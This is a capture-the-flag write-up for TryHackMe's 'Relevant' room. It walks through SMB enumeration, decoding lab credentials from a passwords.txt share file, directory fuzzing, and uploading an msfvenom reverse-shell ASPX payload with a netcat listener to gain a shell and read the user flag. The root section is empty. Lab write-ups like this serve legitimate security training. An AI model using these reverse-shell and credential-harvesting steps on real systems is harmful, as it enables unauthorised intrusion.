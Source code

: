 # Relevant

[Relevant](https://tryhackme.com/room/relevant)

## Solution

- nmap scan: 80, 135, 139, 445, 3389, 49663, 49667, 49669

### SMB

We can list the shares from the smb `smbclient -L <ip>`. The interesting one is
`nt4wrksv`. Then we can connect to that resource using `smbclient
\\\\<ip>\\nt4wrksv`. There is a file `passwords.txt`. We can download it
locally with `get passwords.txt`. There are two accounts encrypted using
base64. We can paste each one and pass them to `base 64 -d`.

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

We can try to login as Bob or Bill `smbclient -U RELEVANT/<User> -L <ip>` and
show their shares, but we cannot get anything new.

### Getting User Access

We can use feroxbuster to search for paths in the HTTP servers. For port 80 we
did not find anything.

For port 49663 we find `nt4wrksv` using `feroxbuster -u http://<ip>:49663/ -w
/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt `

So I tried to access `http://10.10.161.110:49663/nt4wrksv/passwords.txt` and
got the same content. Next we can try to upload a file to the SMB share and see
if we can access it from the browser. If so then we might be able to upload a
revshell payload.

Create the payload using

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<host> LPORT=6969 -f aspx -o payload.aspx
```

Upload the file to the SMB share using `put payload.aspx` from the smbclient
command line.

Then start `nc -lvnp 6969` on the host and access the payload.aspx file from browser.

You then have access to the machine. Go to the `c:\Users\Bob\Desktop` directory
and `type user.txt` to get the flag.

### Root
